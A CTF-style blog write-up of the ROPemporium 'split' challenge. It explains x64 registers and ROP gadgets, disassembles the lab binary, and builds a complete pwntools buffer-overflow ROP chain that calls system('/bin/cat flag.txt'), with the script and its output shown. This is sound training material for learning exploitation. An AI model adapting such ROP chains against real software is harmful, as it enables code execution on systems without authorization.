

ROPemporium | Split
1 Introduction
Welcome to my write-up for the second challenge on ROPemporium, called split.
This challenge is almost the same as the previous challenge, ret2win which I've covered in this post ROPemporium | ret2win, but adds a little twist to increase the difficulty.
But before I get to that, there is some prerequisite knowledge that is necessary to understand before we can complete this challenge. We need to understand what registers are, and how we can use them to our advantage. Then there is also the concept of ROPgadgets, which is the main element of return oriented programming.
1.1 Wtf is a register?
In my last post I briefly mentioned that through the manipulation of registers we could execute arbitrary code. And we also proved that in fact could control what was executed next.
But there's a lot more power in the registers when doing ROP.
Like last time, let us look at what Wikipedia has to say:
A processor register is a quickly accessible location available to a computer's processor. Registers usually consist of a small amount of fast storage, although some registers have specific hardware functions, and may be read-only or write-only.
The way registers are implemented, the number of them, their size and how they are utilized can differ a lot between the different architectures. So I'll try and write as generally as I can, but my main focus will be on the x64 because it is very widespread and the one i currently use.
| 64-bit | 32-bit | Short description |
|---|---|---|
| rip | eip | Instruction Pointer |
| rax | eax | Accumulator |
| rbx | ebx | Base |
| rcx | ecx | Counter |
| rdx | edx | Data (commonly extends A regs) |
| rsi | esi | Source Index for string operations |
| rdi | edi | Destination index for string operations |
| rbp | ebp | Base pointer |
| rsp | esp | Stack pointer |
| r8 | r8d | General purpose |
| r9 | r9d | General purpose |
| r10 | r10d | General purpose |
| r11 | r11d | General purpose |
| r12 | r12d | General purpose |
| r13 | r13d | General purpose |
| r14 | r14d | General purpose |
| r15 | r15d | General purpose |
I would also like to point out that there are more registers in a processor than those you see here, these are just the ones we have access to.
The first register is a special register, that is used to indicate where the computer is in the program sequence.
The rest is general purpose, but as you can see on the table, there are some that are used for special things. That is however only according to calling conventions, which most software sticks to.
The ones we are most interested in when doing ROP are:
- rbp
- As we learned last post, this is register holds the return address of the function.
- rsp
- The stack pointer, it points to addresses in the stack.
- rax
- Holds the return value of a function.
- rdi, rsi, rdx
- Usually used for storing function parameter values.
An amazing tool to see which registers are used for what function parameters for linux libc follow this link.
1.2 ROP gadgets
According to the paper Return-Oriented-Programming (ROP FTW), ROP gadgets are small instruction sequences that end in a ret instruction or 0xc3 if looking at a hexdump of a binary.
(Btw, I can highly recommend reading this paper if you're interested in ROP)
The reason for these gadgets needing to end with a ret instruction, is to allow the creation of a chain of gadgets.
When trying to find these gadgets the following algorithm can be used:
- Search the binary for all
retbytes - Go back and see if previous byte contains a valid instruction. Do this for up do 20 bytes
- Record all valid instruction sequences found in the binary or linked libraries.
Fortunalety there are already tools made for this:
I use ropper, but I think ROPgadget will do just as good a job.
The paper, linked above, describes five uses for gadgets:
- Load constant into register
- Load from memory
- Storing into memory
- Arithmetics
- System calls
The gadgets functionality depends on what intruction it starts with.
If the gadget starts with pop or push, they can be used to manipulate registers, where gadgets starting with the call instruction is used to make system calls.
These two types of gadgets are the ones you will need to find in order to complete this challenge.
2 Recon
Again before I do any actual exploitation, I'll try to gather as much information as possible about the target. I know that I'm kinda repeating my self, but research is important. And you need to have a better understanding of how the software works than the guy/gal that wrote the software. At least to some degree, no one is omniscient(as far as i know atleast), and that is okay.
The most important thing in this case is that we learn about ROP so recon is minimal in this case.
2.1 File
The output here is exactly the same as last post, except for the name of the binary. But I'll keep it here for good measure.
┌────[~/ha/bi/ropemporium/split on master [?] └─>file split split: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=98755e64e1d0c1bff48fccae1dca9ee9e3c609e2, not stripped
2.2 Checksec
Same situation for checksec's output, if you need a refresher read my last post.
┌────[~/ha/bi/ropemporium/split on master [?]
└─>checksec split
[*] '/home/c3lphie/hacking/binary_exploitation/ropemporium/split/split'
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x400000)
2.3 Static analysis
Once again we go through static analysis of the binary before we begin our exploit.
2.3.1 Strings
First thing we should do, that I didn't last time, is to look at the strings in the binary. Because they might give us some usefull information, or clues as to how this challenge should be completed.
This is also often the case in CTF challenges.
And if I could point your attention to the last string, you'll see the /bin/cat flag.txt, which we will need for our exploit.
So let's note down that adress 0x00601060 for future use!
2.3.2 Main function
push rbp {__saved_rbp}
mov rbp, rsp {__saved_rbp}
mov rax, qword [rel stdout]
mov ecx, 0x0
mov edx, 0x2
mov esi, 0x0
mov rdi, rax
call setvbuf
mov edi, 0x4007e8 {"split by ROP Emporium"}
call puts
mov edi, 0x4007fe {"x86_64\n"}
call puts
mov eax, 0x0
call pwnme
mov edi, 0x400806 {"\nExiting"}
call puts
mov eax, 0x0
pop rbp {__saved_rbp}
retn {__return_addr}
Again like in my last post, there is not that much of interest here, except for the call for the pwnme function.
Which again the main focus of for exploitation.
2.3.3 pwnme function
push rbp {__saved_rbp}
mov rbp, rsp {__saved_rbp}
sub rsp, 0x20
lea rax, [rbp-0x20 {buffer}]
mov edx, 0x20
mov esi, 0x0
mov rdi, rax {buffer}
call memset
mov edi, 0x400810 {"Contriving a reason to ask user …"}
call puts
mov edi, 0x40083c
mov eax, 0x0
call printf
lea rax, [rbp-0x20 {buffer}]
mov edx, 0x60
mov rsi, rax {buffer}
mov edi, 0x0
call read
mov edi, 0x40083f {"Thank you!"}
call puts
nop
leave {__saved_rbp}
retn {__return_addr}
Instead of just focusing on the HLIL version of the function, like last time, this time we're going to compare the two versions to get a better understanding of how assembly works.
void buffer memset(&buffer, 0, 32) puts(str: "Contriving a reason to ask user …") printf(format: data_40083c) read(fd: 0, buf: &buffer, nbytes: 96) return puts(str: "Thank you!")
And as you can see in both examples I already cleaned them up a bit, just so it's easier to understand.

Here is a side by side comparison between the to versions.
First we create the variabel buffer, which is then initialized with memset.
The three mov instructions above memset prepares the arguments by moving the values into the corresponding registers.
It fills 32 bytes with zero's starting at the address of buffer.
This method of preparing the registers before the call instructions is, as you can see, how function arguments are set down at this level.
Anyway, just before the read call, the arguments are set.
edx gets the value 0x60 which in decimal is 96, which is the max amount of bytes the read function will accept.
rsi is then set to rax which acts as the buffer variable.
So what happens here is that first the 32 bytes are allocated as 0x0 with memset, then down at read we can suddenly write up to 96 bytes with whatever data that we wan't.
The fact that we can write more information into the buffer than was allocated at first, means that we have a buffer overflow.
2.3.4 usefulFunction
push rbp {__saved_rbp}
mov rbp, rsp {__saved_rbp}
mov edi, 0x40084a {"/bin/ls"}
call system
nop
pop rbp {__saved_rbp}
retn {__return_addr}
So taking what we learned in pwnme function about how arguments are prepared for functions in assembly, we see that the address for the string "/bin/ls" is moved into the edi register before calling system.
This function isn't actually called in the binary, so it is only here for us to use in our exploit.
Since we don't want to run "/bin/ls" but "/bin/cat flag.txt", we can just grab the address for the call instruction.
Like the usefulData string I grabbed the address (0x40074b) from binary ninja and noted it down.
We'll need it later in our first ROP chain.
3 Exploitation
Now we are ready to begin exploiting the binary! I won't go as much into detail about the buffer overflow, it is the exact same procedure as last time.
3.1 Buffer overflow
A quick recap of finding a basic buffer overflow.
I start with a basic template as you can see below.
from pwn import *
context.update(arch="amd64", os="linux")
proc = process("./split")
gdb.attach(proc, """
break main
""")
def send_recv(buffer: bytes):
proc.recvuntil(">")
proc.send(buffer)
payload = cyclic(100)
send_recv(payload)
proc.interactive()
Running this helps you find where base pointer is located on the stack.
I found the offset the be at 0x6161616b in the cyclic sequence, so I used cyclic_find(0x6161616b) to calculate my padding.
The following exploit returns into usefulFunction
from pwn import *
context.update(arch="amd64", os="linux")
proc = process("./split")
# gdb.attach(proc, """
# break main
# """)
def send_recv(buffer: bytes):
proc.recvuntil(">")
proc.send(buffer)
payload = cyclic(cyclic_find(0x6161616b))
payload += p64(0x400742)
send_recv(payload)
proc.interactive()
Which calls /bin/ls:
┌────[~/ha/bi/ropemporium/split on master [?] └─>python exploit.py [+] Starting local process './split': pid 384887 [*] Switching to interactive mode Thank you! exploit.py exploit.py~ flag.txt README.org README.org~ split split.bndb [*] Got EOF while reading in interactive $
So let find our first gadget!
3.2 Finding gadgets
As mentioned earlier I'll be using ropper to find the ROP gadgets needed for this exploit.
In fact we only need one gadget for this ROP chain since we already have a system call.
So what we need to do is find a gadget that can pop an address into a register from the stack.
┌────[~/ha/bi/ropemporium/split on master [?] └─>ropper -f split --console [INFO] Load gadgets from cache [LOAD] loading... 100% [LOAD] removing double gadgets... 100% (split/ELF/x86_64)>
I use the --console flag because it loads the entire binary once, which makes multiple searches faster.
Now all we gotta do is search for gadgets starting with a pop instruction.
(split/ELF/x86_64)> search pop [INFO] Searching for gadgets: pop [INFO] File: split 0x00000000004007bc: pop r12; pop r13; pop r14; pop r15; ret; 0x00000000004007be: pop r13; pop r14; pop r15; ret; 0x00000000004007c0: pop r14; pop r15; ret; 0x00000000004007c2: pop r15; ret; 0x000000000040060b: pop rbp; mov edi, 0x601078; jmp rax; 0x00000000004007bb: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 0x00000000004007bf: pop rbp; pop r14; pop r15; ret; 0x0000000000400618: pop rbp; ret; 0x00000000004007c3: pop rdi; ret; 0x00000000004007c1: pop rsi; pop r15; ret; 0x00000000004007bd: pop rsp; pop r13; pop r14; pop r15; ret;
As you can see we have quite the list of candidates!
But why pop well, the instruction takes the element from the stack that the stack pointer points at, and puts it into the register coming after.
And since we have control of the stack elements, we can control the registers that we have pop gadgets for.
So which register do we want to pop
Well the first argument is often the rdi register, so the gadget we're gonna use is: 0x00000000004007c3: pop rdi; ret;
And just take a note of that address.
3.3 Creating the chain
- State "DONE" from "NEXT"
| Name | Adress |
|---|---|
| system | 0x40074b |
| usefulData | 0x601060 |
| popRdi | 0x4007c3 |
Above you'll se the list of addresses we have collected so far. All we have to do now is chain it together!
from pwn import * ... popRdi = p64(0x4007c3) system = p64(0x40074b) usefulData = p64(0x601060) payload = cyclic(cyclic_find(0x6161616b)) send_recv(payload) proc.interactive()
In the same python file from the Buffer overflow section, I assigned the adresses as variables. Then I simply add them in an order which chains them together (see were the name came from ;)).
But which order? Well we should of course use the same order as it's done in assembly!
from pwn import * ... popRdi = p64(0x4007c3) system = p64(0x40074b) usefulData = p64(0x601060) payload = cyclic(cyclic_find(0x6161616b)) payload += popRdi payload += usefulData payload += system send_recv(payload) proc.interactive()
First we pop the usefulData address into the rdi register, and then we call system
3.4 Final exploit
Here is the final exploit, which will show us the flag.
from pwn import *
context.update(arch="amd64", os="linux")
proc = process("./split")
# gdb.attach(proc, """
# break main
# """)
def send_recv(buffer: bytes):
proc.recvuntil(">")
proc.send(buffer)
popRdi = p64(0x4007c3)
system = p64(0x40074b)
usefulData = p64(0x601060)
payload = cyclic(cyclic_find(0x6161616b))
payload += popRdi
payload += usefulData
payload += system
send_recv(payload)
proc.interactive()
If we run it in the terminal we get the following flag:
┌────[~/ha/bi/ropemporium/split on master [?]
└─>python exploit.py
[+] Starting local process './split': pid 389100
[*] Switching to interactive mode
Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$
An there you go ladies and gentlemen, we got the flag!
4 Conclusions
In this post we dove into what registers are and how they are used as parameters for functions in the 64-bit architecture. We also looked closer at what ROP gadgets are, and how we can use chains of these gadgets to basically reprogram software to do our bidding,
Next one in line for this series is ROPemporiums callme challenge, where we'll learn to craft bigger chains without crashing the software afterwards.